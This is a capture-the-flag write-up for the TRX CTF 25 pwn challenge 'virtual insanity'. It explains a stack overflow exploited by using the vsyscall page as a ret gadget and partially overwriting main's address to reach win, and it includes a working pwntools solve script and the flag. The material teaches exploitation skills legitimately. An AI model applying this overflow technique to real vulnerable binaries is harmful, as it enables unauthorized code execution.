 ```yaml
---
title: TRX CTF 25 - virtual insanity
date: '2025-02-26'
lastmod: '2025-02-26T15:00:00+02:00'
categories:
- writeup
- trxctf25
tags:
- pwn
- ret2win
- vsyscall
authors:
- Erge
---
```


## Description

Dancing, Walking, Rearranging Furniture

**DISCLAIMER**: This challenge doesn't require brute-forcing

## Overview of the challenge

The challenge is a standard ret2win with a pretty obvious overflow of 0x30 bytes, the binary is compiled without stack canary protection but has pie, with no apparent way to leak addresses.

## Solution

The intended solution involves performing a partial overwrite to redirect execution to the `win` function. However, the return address on the stack is a libc address. To work around this, we can leverage [vsyscall](https://0xax.gitbooks.io/linux-insides/content/SysCall/linux-syscall-3.html) to traverse the stack until we locate the address of `main`. By modifying its least significant byte (LSB), we can transform it into the address of `win`. When execution returns, `vsyscall` effectively acts as a `ret` gadget, allowing us to redirect control flow to `win`.

**Before overwrite:**
![](/trxctf25/virtual/img1.png)

**After overwrite:**
![](/trxctf25/virtual/img2.png)

## Solve Script

```py
#!/usr/bin/env python3

from pwn import *
from time import sleep

exe = ELF("./chall")

context.binary = exe

REMOTE_NC_CMD    = "nc localhost 7011"    # `nc <host> <port>`

bstr = lambda x: str(x).encode()
ELF.binsh = lambda self: next(self.search(b"/bin/sh\0"))

GDB_SCRIPT = """
set follow-fork-mode parent
set follow-exec-mode same
"""

def conn():
    if args.LOCAL:
        return process([exe.path])

    if args.GDB:
        return gdb.debug([exe.path], gdbscript=GDB_SCRIPT)

    return remote(REMOTE_NC_CMD.split()[1], int(REMOTE_NC_CMD.split()[2]))

def main():
    r = conn()

    VSYSCALL = 0xffffffffff600000 #effectively a ret gadget
    r.send(b"A"*0x28 + p64(VSYSCALL)*2 + b"\xa9"); #lsb of win()

    r.interactive()

if __name__ == "__main__":
    main()
```

## Flag

`TRX{1_h0p3_y0u_d1dn7_bru73f0rc3_dc85efe0}`
